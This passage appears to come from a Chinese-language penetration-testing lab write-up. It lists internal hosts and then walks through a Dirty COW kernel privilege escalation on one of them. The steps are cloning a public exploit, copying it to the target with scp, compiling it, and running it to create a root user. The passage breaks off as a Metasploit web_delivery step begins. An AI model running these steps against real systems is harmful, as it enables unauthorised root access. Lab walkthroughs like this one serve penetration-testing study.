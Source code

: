 192.168.21.85

192.168.93.100

真正提供web服务的

192.168.93.120

但是这两台的权限都比较低



## 提权

192.168.21.85这一台

![image-20210507184648665](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210507184648665.png)

查看内核版本，应该可以通过脏牛提权

下载提权工具

```
git clone https://github.com/FireFart/dirtycow.git
```

![image-20210508090746770](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508090746770.png)

将脚本发送到目标机

```
scp dirty.c wwwuser@192.168.21.85:/home/wwwuser
```

![image-20210508091023439](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508091023439.png)

gcc编译

```
gcc -pthread dirty.c -o dirty -lcrypt
```

![image-20210508091229854](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508091229854.png)

执行脚本生成用户

```
./dirty 123456
```

![image-20210508130601606](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508130601606.png)

切到firefart用户，这样就拿到了root权限

![image-20210508130739242](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210508130739242.png)

msf上线

使用exploit/multi/script/web_delivery模块，设置如下
